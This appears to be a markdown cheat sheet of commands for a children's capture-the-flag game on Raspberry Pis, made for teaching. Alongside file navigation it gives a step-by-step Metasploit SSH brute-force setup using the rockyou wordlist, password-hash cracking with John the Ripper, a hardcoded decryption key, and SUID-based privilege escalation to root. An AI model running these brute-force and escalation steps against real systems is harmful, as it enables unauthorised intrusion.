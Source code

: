 # 🎮 CTF Kids' Commands Cheat Sheet
## Only What You Need for the Game!

---

## 🗂️ Moving Around & Looking for Flags

```bash
ls -la
```
*Show all files and folders, even hidden ones.*

```bash
cd foldername
```
*Go into a folder.*

```bash
cd ..
```
*Go up one folder.*

```bash
cat filename.txt
```
*Show what's inside a file (like a flag!).*

---

## 🔐 Logging In & Switching Users

```bash
ssh username@pi_ip
```
*Log in to a Raspberry Pi from your computer.*

```bash
su username
```
*Switch to another user (if you know their password).* 

---

## 🕵️‍♂️ Finding Hidden Stuff

```bash
ls -la
```
*See hidden files and folders (they start with a dot).* 

---

## 🔑 Decoding & Cracking Passwords

```bash
echo "ZWxsYXNlY3JldA==" | base64 -d
```
*Decode a base64 password hint (for Ella's account).* 

```bash
john hash.txt
```
*Crack a password hash using John the Ripper.*

---

## 🧰 Metasploit (for Brute Forcing)

```bash
msfconsole
```
*Start Metasploit.*

```bash
search ssh_login
```
*Find the SSH brute force tool.*

```bash
use auxiliary/scanner/ssh/ssh_login
```
*Pick the SSH brute force tool.*

```bash
set RHOSTS pi_ip
```
*Set the target Pi's address.*

```bash
set USERNAME pi_username
```
*Set the username to try.*

```bash
set PASS_FILE /usr/share/wordlists/rockyou.txt
```
*Set the password list to use.*

```bash
run
```
*Start the brute force attack!*

---

## 🗝️ Decrypting a File (Jack's Password)

```bash
openssl enc -aes-256-cbc -d -in encrypted_jack_password.bin -k "CTF2024"
```
*Unlock Jack's password file.*

---

## 🌐 Finding All the Pis

```bash
angryipscanner
```
*Open Angry IP Scanner (use the GUI to scan the network).* 

---

## 🏆 Getting Root (Final Flag)

```bash
find / -perm -4000 2>/dev/null
```
*Find special files that can help you become root.*

```bash
./suid_exploit
```
*Run the special file to get root access.*

```bash
cat /root/final_flag.txt
```
*Read the final flag!* 

---

## 📝 Taking Notes

```bash
echo "Found flag in /home/ella/flag4.txt" >> notes.txt
```
*Write down where you found a flag.*

---

**That's it! Use these commands to find all the flags. Good luck and have fun! 🏴‍☠️** 
